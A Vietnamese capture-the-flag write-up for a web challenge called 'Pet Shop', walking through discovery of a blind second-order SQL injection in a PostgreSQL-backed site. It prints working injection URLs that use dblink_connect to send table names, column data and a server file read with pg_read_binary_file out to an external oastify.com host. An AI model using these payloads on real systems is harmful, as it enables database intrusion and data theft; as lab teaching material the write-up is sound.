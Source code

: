 # Pet Shop

![image-20230518143924264](./assets/image-20230518143924264.png)

Giao diện trang web này là một trang bán thú cưng :)

![image-20230518143946644](./assets/image-20230518143946644.png)

Các chức năng trên trang web này không có gì đặc biệt, chỉ có phần `Tìm kiếm phụ kiện` bị disable rất khả nghi ඞඞඞ

![image-20230518144249051](./assets/image-20230518144249051.png)

Sửa lại HTML và test chức năng này thì trang web redirect mình tới `GET /?sp='` và không có gì xảy ra cả

![image-20230518144530722](./assets/image-20230518144530722.png)

Nhưng mà sau khi refresh lại thì chương trình báo lỗi. Có thể dự đoán được trang web này dính lỗi SQL Injection và kết quả của câu truy vấn được trả về ở lần truy cập tiếp theo 

![image-20230518144621886](./assets/image-20230518144621886.png)

Sau một vài lần fuzzing thì mình xác định được câu query này có 2 cột và sử dụng PostgreSQL

![image-20230518145609528](./assets/image-20230518145609528.png)

Vì đây là dạng Blind SQL Injection nên mình cần thử trước `triggering time delays` và `SQL error messages` nhưng cả 2 đều fail hoặc là mình sai ở đâu đó 😃. Nhưng mà mình cũng cần thử đến trường hợp OAST(Out-of-band application security testing)

Trong PostgreSQL, `dblink_connect` là một hàm được cung cấp bởi extension `dblink` để thiết lập một kết nối đến một cơ sở dữ liệu khác trong cùng hoặc trong một máy chủ PostgreSQL khác. Mình cũng có thể sử dụng nó để thực hiện truy xuất dữ liệu của database lên exploit server

refs: [dblink/lo_import data exfiltration - HackTricks](https://book.hacktricks.xyz/pentesting-web/sql-injection/postgresql-injection/dblink-lo_import-data-exfiltration)

Xuất tên bảng → dump ra được bảng `searches`

```
https://petshop.kcsc.tf/?sp=' union select null, dblink_connect(concat('host=', table_name,'.4af7jf4sjfbduy38jlvvrhzlmcs3gs.oastify.com user=a password =a')) FROM information_schema.tables limit 1 -- -
```

![image-20230518153346657](./assets/image-20230518153346657.png)

Xuất tên cột → 2 cột `id, search`

```
https://petshop.kcsc.tf/?sp=' union select null, dblink_connect(concat('host=', string_agg(column_name, '-') ,'.4af7jf4sjfbduy38jlvvrhzlmcs3gs.oastify.com user=a password =a')) FROM information_schema.columns WHERE table_name='searches' limit 1 -- -
```

![image-20230518153520524](./assets/image-20230518153520524.png)

Xuất dữ liệu từ cột `search` → mình nhận được 1 đoạn mã hoá base64

```
https://petshop.kcsc.tf/?sp=' union select null, dblink_connect(concat('host=', string_agg(search, '-') ,'.4af7jf4sjfbduy38jlvvrhzlmcs3gs.oastify.com user=a password =a')) FROM searches limit 1 -- -
```

![image-20230518153649951](./assets/image-20230518153649951.png)

Decode đoạn base64 này mình nhận được một đường dẫn `/var/lib/postgresql/data/sqlOutOfBand` trông giống như 1 file binary

![image-20230518153754320](./assets/image-20230518153754320.png)

Sử dụng `pg_read_binary_file` hoặc `pg_read_file` để đọc file này

```
https://petshop.kcsc.tf/?sp=' union select null, dblink_connect(concat('host=', pg_read_binary_file('/var/lib/postgresql/data/sqlOutOfBand') ,'.4af7jf4sjfbduy38jlvvrhzlmcs3gs.oastify.com user=a password =a')) -- -
```

![image-20230518154023294](./assets/image-20230518154023294.png)

Decode From Hex và mình có được flag

![image-20230518154121195](./assets/image-20230518154121195.png)

`Flag: KCSC{Yeah_Ban_Lam_Duoc_Roi!!!}`